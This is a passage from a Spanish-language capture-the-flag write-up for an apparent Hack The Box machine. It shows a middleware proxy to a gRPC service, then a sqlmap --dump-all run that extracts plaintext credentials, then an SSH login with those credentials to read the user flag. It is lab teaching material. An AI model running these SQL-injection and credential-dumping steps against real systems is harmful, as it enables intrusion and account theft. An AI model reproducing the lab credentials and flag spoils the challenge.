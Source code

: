El servicio **HTTP** local se inicia en el puerto `8181` por defecto, con `--lport` podemos cambiar este puerto.

```bash
$ python3 middleware.py -p 50051 -i 10.10.11.214 -t "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoidGVzdCIsImV4cCI6MTY4NDg5NDY5MH0.5gYk1d4TAeoDL7TfQFBxMTmJ30-7bffbgoQBqF0-QEM"

[*] Starting server: "http://localhost:8181/?id=%"
######
```

Ahora podemos usar `sqlmap` para automatizar el proceso. En algunos casos vermeos errores en los logs del script, es normal debido a que herramienta está haciendo pruebas antes de comenzar el ataque.

```bash
$ sqlmap -u "http://localhost:8181/?id=1" --batch --dump-all
######
[18:05:24] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[18:05:24] [INFO] sqlmap will dump entries of all tables from all databases now
[18:05:24] [INFO] fetching tables for database: 'SQLite_masterdb'
[18:05:25] [INFO] fetching columns for table 'accounts'
[18:05:26] [INFO] fetching entries for table 'accounts'
Database: <current>
Table: accounts
[2 entries]
+------------------------+----------+
| password               | username |
+------------------------+----------+
| admin                  | admin    |
| HereIsYourPassWord1431 | sau      |
+------------------------+----------+

[18:05:26] [INFO] table 'SQLite_masterdb.accounts' dumped to CSV file '/root/.local/share/sqlmap/output/localhost/dump/SQLite_masterdb/accounts.csv'
[18:05:26] [INFO] fetching columns for table 'messages'
[18:05:27] [INFO] fetching entries for table 'messages'
Database: <current>
Table: messages
[1 entry]
+----+----------------------------------------------+----------+
| id | message                                      | username |
+----+----------------------------------------------+----------+
| 1  | The admin is working hard to fix the issues. | admin    |
+----+----------------------------------------------+----------+
######
```

Trataremos de conectarnos con ese usuario **sau** y esa contraseña por **SSH**.

```bash
$ sshpass -p "HereIsYourPassWord1431" ssh sau@10.10.11.214
#####
sau@pc:~$ ls
user.txt
sau@pc:~$ cat user.txt
a14**************************592
```
